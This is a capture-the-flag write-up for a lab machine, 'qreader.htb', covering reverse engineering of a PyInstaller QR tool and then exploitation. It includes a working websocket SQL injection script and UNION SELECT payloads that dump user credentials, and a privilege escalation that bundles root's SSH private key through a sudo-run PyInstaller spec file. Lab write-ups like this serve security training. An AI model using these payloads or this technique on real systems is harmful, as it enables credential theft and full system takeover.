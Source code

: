 # PORT SCAN

<u>TCP</u>
* **22** [ssh]
* **80** [http] &#8594; Apache httpd 2.4.52


This is the page at port 80 with the name `qreader.htb`

![1.png](img/1.png)

With the <u>**Read your QR code**</u> we can upload a QR code and read the text embeeded inside it and with <u>Embed your text</u> create a QR code with the text we provide (I investigated on the meta-data but nothing interesting at all).

<br>

Also at **/report** we can submit a complaint  with this field "First Name", "Subject" and "Description" but doesn't seems abusable in any way (meanwhile I was fuzzing around a sqlmap scan in the background was active and wait for some results).

In the bottom page we are able to download the tool used in the backend to read and embeed text into QR code and it comes with a test QR code, if we use the tool on that QR the tool will return "**kavigihan**" (the creator of the machine)

![2.png](img/2.png)


The tool seems to be costum so no known vulnerability here but when I tried one of the option on the section **About** (say version) an error pop out `[ERROR] Connection Error!` so maybe is trying to connect somewher but can reach it

We need a little bit of `Reverse Engineering` to know what is happening under the hood of the app and we can see the import of `websockets` library and this Exception which probably is what lead the application to not be able to connect

![4.png](img/4.png)

**PyInstaller** act like a compiler reading the python code, collecting all the libraries and modules required in order to make a single executable file. With **[pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)** we can extract the contents from the executable file

![5.png](img/5.png)



![6.png](img/6.png)

Reading the **qreader.pyc** file we can find the server which the app try to connect

![7.png](img/7.png)

Ok websocket are something new for me and I will put an image that best can define the difference between HTTP/HTTPS and WS/WSS 

![8.png](img/8.png)

Now I will add to my host file the address `ws.qreader.htb` and now the section **about** of the tool work and gave me this version as ouput

![9.png](img/9.png)

Now will be usefull to create a python script to intercepet all the messages that the localhost and the remote box are sending each other, I tried wth different tools online (I've also created one by myself but is not working)

We can look at the original source code of the app using [pycdc](https://github.com/zrax/pycdc)

![10.png](img/10.png)

This is the snippet of code when we press `update` button

![11.png](img/11.png)

And here the code used through the `version` button

![12.png](img/12.png)

in **asyncio.run** we note that the endpoint which the application connect is `ws://qreader.htb/version` sending this payload 

```json
{'version':0.0.2}
```

I tried to create a middleware with python that can be used as proxy with sqlmap targetting the WebSocket target but whitout results (maybe I will try in the following days to make one) so I need to make a script that do the injection manually where we are returning back username and admin (fortunately I'm doing the Juice Shop walkthrough and I have done some SQL injection manually so I'm well prepared aboutn **UNION SELECT**) this is the final code

```python
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.2" UNION SELECT username,password,"3","4" from users;-- -'

ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()

print(result)
ws.close()
```


And here he results

![13.png](img/13.png)

We just need to crack the hash and we can try this credentials in ssh

![14.png](img/14.png)

I've tried to login with the username "admin" but failed so we need to make some more enumaration with the script


`[...] UNION SELECT group_concat(name) [...] from sqlite_master ;-- -`

![15.png](img/15.png)

`[...] UNION SELECT sql [...] from sqlite_master WHERE name="answers";-- -`

![16.png](img/16.png)

`[...] UNION SELECT answer [...] from answers ;-- -`

![17.png](img/17.png)

So we have a possible username based on Thomas Keller and **tkeller** work with the passwords we have retrieved

<br><br>

# PRIVILEGE ESCALATION

Linepeas gave me this interesting output

![18.png](img/18.png)

This is the script code 

![19.png](img/19.png)

```

if arguments are not 2 and first argument is not cleanup{
	exit
} 

$action=first_arg
$name=second_arg
$ext = extension of the name provided (ex:/ s.py --> py)

if $name already exist
	exit (no symbolic link allowed)
	
if $action==build
	if $ext==spec{
		remove /opt/shared/build /opt/shared/dist
		pyinstaller $name
		mv ./dist ./build /opt/shared
	}else{
		exit (invalid format)
	}
	
	
else if($action == make){
	if($ext == py){
		remove /opt/shared/build /opt/shared/dist
		pyinstaller -F --name "qreader" $name --specpath /tmp
		mv ./dist ./build /opt/shared
	}else{
		exit(Invalid format)
	}

}else if($action==cleanup){
	remove ./build ./dist
	remove /opt/shared/build /opt/shared/dist
	remove /tmp/qreader
}else{
	exit(invalid action)
}
```

I created a script in python that spawn a shell and the spec file the created executable is owned by the root but when execute the permission are the one of the one who execute it and there is no way to bypass or abuse this (we can't change the SUID of the executable)

<br>

Following the documentation inside the spec fileswe can include whatever file (non-binary)

![20.png](img/20.png)

So we are running **PyInstaller** as root with SUDO we can include the private ssh keys of root user

![21.png](img/21.png)

After the creation using the `build` function of the script I downloaded locally the executable and using **pyinstxtractor**  we can decompile the binary.

Inside we have the **ID_RSA private key**

![22.png](img/22.png)

Than I just add the key in the my keyring and access through SSH as root.

PWNED!
